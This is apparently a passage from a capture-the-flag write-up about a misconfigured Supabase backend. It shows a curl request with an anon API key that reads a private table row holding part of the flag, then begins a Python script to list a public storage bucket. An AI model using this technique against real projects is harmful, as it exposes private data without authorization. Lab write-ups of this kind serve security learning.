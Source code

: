 we then query the table and get the result.

```bash
❯ curl --request GET \
        --url https://qzuqulwyiktbcmtjipsr.supabase.co/rest/v1/pain_paths \
        --header 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InF6dXF1bHd5aWt0YmNtdGppcHNyIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NDYwODY5NzIsImV4cCI6MjA2MTY2Mjk3Mn0.nzqx2c336xykkqlyCVfH8iHq5AZpT6wzC_gtJTHZ_3I' \
        --header 'User-Agent: insomnia/10.3.1' \
        --header 'apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InF6dXF1bHd5aWt0YmNtdGppcHNyIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NDYwODY5NzIsImV4cCI6MjA2MTY2Mjk3Mn0.nzqx2c336xykkqlyCVfH8iHq5AZpT6wzC_gtJTHZ_3I'
[{"id":"7a306970-69f2-4e51-815f-70a4f2d1a7d6","created_at":"2025-05-01T08:38:31.216964+00:00","name":"{m15configur3d_RL5_","image_url":"","description":"Controls attractive and repulsive forces. Most notable for the Shinra Tensei and Chibaku Tensei techniques.","ability":"Gravitational manipulation","is_private":true},
 {"id":"16082e31-da0e-497a-bc0d-7b0d73696488","created_at":"2025-05-01T08:38:31.216964+00:00","name":"Animal Path","image_url":"https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/animal.jpg","description":"Summons a variety of creatures to aid in battle, all of which are also controlled via the Rinnegan.","ability":"Summoning powerful beasts","is_private":false},
 {"id":"73fdb860-9aac-49fb-9290-4a6637ecde58","created_at":"2025-05-01T08:38:31.216964+00:00","name":"Preta Path","image_url":"https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/preta.jpg","description":"Able to absorb chakra and nullify ninjutsu attacks.","ability":"Chakra absorption","is_private":false},
 {"id":"74abac58-dcbe-4e8c-b7d3-ba65dd46fde7","created_at":"2025-05-01T08:38:31.216964+00:00","name":"Asura Path","image_url":"https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/asura.jpg","description":"Augments the user's body with mechanized weaponry, turning them into a living arsenal.","ability":"Mechanical body enhancements","is_private":false},
 {"id":"797fae10-445f-4f9b-b513-0b2513749c52","created_at":"2025-05-01T08:38:31.216964+00:00","name":"Human Path","image_url":"https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/human.jpg","description":"Can read minds and rip out souls by physical contact.","ability":"Soul extraction and mind reading","is_private":false},
 {"id":"df91ce28-3ef9-4e33-bf7a-8710314874b1","created_at":"2025-05-01T08:38:31.216964+00:00","name":"Naraka Path","image_url":"https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/naraka.jpg","description":"Summons the King of Hell for interrogation and restoration.","ability":"Interrogation and healing via the King of Hell","is_private":false}]
```

We get the first part of flag from this `[{"id":"7a306970-69f2-4e51-815f-70a4f2d1a7d6","created_at":"2025-05-01T08:38:31.216964+00:00","name":"{m15configur3d_RL5_","image_url":"","description":"Controls attractive and repulsive forces. Most notable for the Shinra Tensei and Chibaku Tensei techniques.","ability":"Gravitational manipulation","is_private":true},`

We notice that the images have urls `https://qzuqulwyiktbcmtjipsr.supabase.co/storage/v1/object/public/pain-paths/files/animal.jpg` which can be accessed publicly by anyone. That means the supabase bucket can be accessed by anyone publicly. We need to write a small script to get all files in the bucket.

```python
from supabase import create_client, Client

# Initialize Supabase client
supabase_url = "https://qzuqulwyiktbcmtjipsr.supabase.co"
supabase_key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6InF6dXF1bHd5aWt0YmNtdGppcHNyIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NDYwODY5NzIsImV4cCI6MjA2MTY2Mjk3Mn0.nzqx2c336xykkqlyCVfH8iHq5AZpT6wzC_gtJTHZ_3I"
supabase: Client = create_client(supabase_url, supabase_key)


async def list_files_in_folder():
    try:
        response = supabase.storage.from_("pain-paths").list(path="files")

        files = response
        print(f"Found {len(files)} files:")
        for file in files:
```